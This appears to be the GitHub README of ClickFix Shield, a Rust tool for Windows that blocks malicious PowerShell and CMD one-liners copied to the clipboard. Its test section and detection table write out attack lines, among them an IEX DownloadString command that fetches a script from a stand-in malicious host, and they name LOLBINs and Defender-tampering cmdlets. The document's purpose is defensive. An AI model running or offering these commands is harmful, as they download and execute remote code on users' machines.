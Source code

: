 🛡️ ClickFix Shield

By Josiah Golden

A lightweight Windows clipboard protection tool built in Rust.
ClickFix Shield detects and blocks suspicious PowerShell or CMD payloads copied to your clipboard —
preventing “ClickFix”-style malvertising attacks before they ever reach your system.


⚙️ What It Does

🧠 Monitors your clipboard for dangerous patterns (PowerShell, CMD, Base64 payloads)

🛑 Automatically clears malicious text before it can be pasted or executed

💾 Logs events to C:\ProgramData\ClickfixShield\shield.log

🪟 Runs silently in the system tray (no console window)

⏸️ Tray menu lets you Pause, Resume, Open Logs, Edit Config, or Exit


🚨 Why It Matters

Modern “ClickFix” and malvertising campaigns trick users into pasting one-liners like:

powershell -nop -w hidden -enc SGVsbG8=


ClickFix Shield intercepts those strings and wipes them before they can run, turning a potential compromise into a harmless copy-paste.


🧩 How It Works

Built in Rust 1.80+

Uses clipboard-win to monitor the Windows clipboard

Detects suspicious patterns via regex

Displays alerts with native Windows APIs (MessageBoxW)

System-tray interface built with tray-icon and tao

Configurable rules stored in JSON (C:\ProgramData\ClickfixShield\config.json)


🧠 Detection Patterns

| **Category**           | **Examples Matched**                        | **Description**                                                            |
| ---------------------- | ------------------------------------------- | -------------------------------------------------------------------------- |
| **LOLBINs**            | `mshta`, `rundll32`, `certutil`, `wmic`     | Living-off-the-land binaries often abused to execute or retrieve payloads. |
| **PowerShell Abuse**   | `IEX`, `DownloadString`, `FromBase64String` | Code execution directly from memory or remote sources.                     |
| **Run-box Commands**   | `powershell ...`, `cmd /c ...`              | Commands likely pasted into Run or terminal prompts.                       |
| **Defender Tampering** | `Set-MpPreference`, `Add-MpPreference`      | Attempts to disable or exclude Windows Defender protections.               |
| **Encoded Payloads**   | Long Base64 strings                         | Obfuscated content typically used for malware delivery.                    |


You can whitelist safe text patterns in config.json via the allow_regex array.


🧰 Installation & Setup

1️⃣ Download or build the binary

cargo build --release


Copy target\release\clickfix-shield.exe to:
C:\ProgramData\ClickfixShield\clickfix-shield.exe

2️⃣ (Recommended) Register Scheduled Task for Auto-Start

Run PowerShell as Admin:

$exe = "C:\ProgramData\ClickfixShield\clickfix-shield.exe"
$taskName = "ClickFixShield"

if (Get-ScheduledTask -TaskName $taskName -ErrorAction SilentlyContinue) {
    Unregister-ScheduledTask -TaskName $taskName -Confirm:$false
}

$action = New-ScheduledTaskAction -Execute $exe
$trigger = New-ScheduledTaskTrigger -AtLogOn
$principal = New-ScheduledTaskPrincipal -UserId $env:USERNAME -LogonType Interactive -RunLevel Highest
$settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries -Hidden

Register-ScheduledTask -TaskName $taskName -Action $action -Trigger $trigger -Principal $principal -Settings $settings

3️⃣ Run it once

start "" "C:\ProgramData\ClickfixShield\clickfix-shield.exe"


It will appear in your tray and start monitoring instantly.


🧪 Test It

Copy any of these into your clipboard:

powershell -nop -w hidden -enc SGVsbG8=

IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')

cmd /c calc.exe

✅ The clipboard clears, an alert appears, and the event is logged.


⚡ Configuration

File: C:\ProgramData\ClickfixShield\config.json

{
  "allow_regex": [
    "^Hello world$",
    "^.*my-safe-snippet.*$"
  ],
  "poll_ms": 300
}


allow_regex: List of safe patterns to skip

poll_ms: Clipboard polling interval (ms)


📦 Build Info

| Field    | Value                         |
| -------- | ----------------------------- |
| Language | Rust                          |
| Version  | 0.2.0                         |
| Platform | Windows 10 / 11               |
| License  | MIT                           |
| Author   | Josiah Golden (@josiahgolden) |



📸 Screenshots (coming soon)

(Add a screenshot of your tray icon and alert popup here.)


🙌 Credits

Created by Josiah Golden (2025)
Built with 🦀 Rust and a mission to make security simpler for everyone.


💬 Connect

LinkedIn: [linkedin.com/in/josiahgolden](https://www.linkedin.com/in/josiah-golden/)

Youtube: https://youtube.com/@josiahgold3n?si=02n0UaLYue1tVbgk

Instagram: https://www.instagram.com/josiahgold3n/

GitHub: github.com/josiahgolden